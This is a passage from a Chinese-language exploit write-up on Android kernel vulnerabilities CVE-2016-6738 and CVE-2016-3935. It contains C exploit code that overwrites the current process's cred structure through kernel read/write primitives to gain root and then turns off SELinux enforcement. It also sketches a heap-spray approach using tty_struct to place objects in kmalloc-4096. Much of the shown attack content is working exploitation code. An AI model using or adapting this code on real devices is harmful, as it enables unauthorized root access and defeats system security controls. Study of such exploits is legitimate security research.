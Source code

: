 ```
                printf("invalid task address!");
                return -2;
        `}`

        ret = kernel_read(my_task + cred_offset, &amp;cred);
        if (cred &lt; KERNEL_BASE) return -3;

        i = 1; 
        addr = cred + 4 * 4;
        ret = kernel_read_32(addr, &amp;tmp0);
        if(tmp0 == 0x43736564 || tmp0 == 0x44656144)
                i += 4;
        addr = cred + (i+0) * 4;
        ret = kernel_write_32(addr, 0);
        addr = cred + (i+1) * 4;
        ret = kernel_write_32(addr, 0);
...     
        ret = kernel_write_32(addr, 0xffffffff);
        addr = cred + (i+16) * 4;
        ret = kernel_write_32(addr, 0xffffffff);
        /* success! */

        // disable SELinux
        kernel_write_32(SELINUX_ENFORCING, 0);

        return 0;
`}`
```

搜索到本进程的 cred 结构体，并使用我们封装的内核读写函数，将其成员的值改为0，这样本进程就变成了 root 进程。

搜索本进程 task_struct 的函数 get_task_by_comm 具体实现参考 github 的代码。



**CVE-2016-3935 漏洞利用**



这个漏洞的提权方法跟 6738 是一样的，唯一不同的地方是，这是一个堆溢出漏洞，我们只能覆盖堆里边的 fops (cve-2016-6738 我们覆盖的是 .data 区里的 fops )。

在我测试的版本里，k_buf_src 是从 kmalloc-4096 分配出来的，因此，需要找到合适的结构来填充 kmalloc-4096 ，经过一些源码搜索，我找到了 tty_struct 这个结构

```
include/linux/tty.h
struct tty_struct `{`
        int     magic;
        struct kref kref;
        struct device *dev;
        struct tty_driver *driver;
        const struct tty_operations *ops;
        int index;
...
`}`
```
